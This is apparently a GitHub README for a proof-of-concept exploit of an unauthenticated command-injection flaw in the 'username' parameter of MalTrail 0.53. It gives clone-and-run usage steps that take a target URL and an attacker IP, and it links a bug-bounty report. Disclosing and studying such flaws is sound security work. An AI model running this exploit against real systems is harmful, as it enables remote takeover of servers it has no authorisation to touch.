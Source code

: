 # MalTrail - Command Injection / RCE

MalTrail - Command Injection / RCE PoC Exploit

![alt text](https://rvizx.github.io/maltrail-rce/img.png?raw=true)

MalTrail version `0.53` doesn't have proper validation in `username` parameter, which leads to unauthenticated command injection.

# Usage

```
git clone https://github.com/rvizx/maltrail-rce
cd maltrail-rce
chmod +x exploit.sh 
```

```
./exploit.sh <target_url> <attacker_ip>
```

# notes

https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
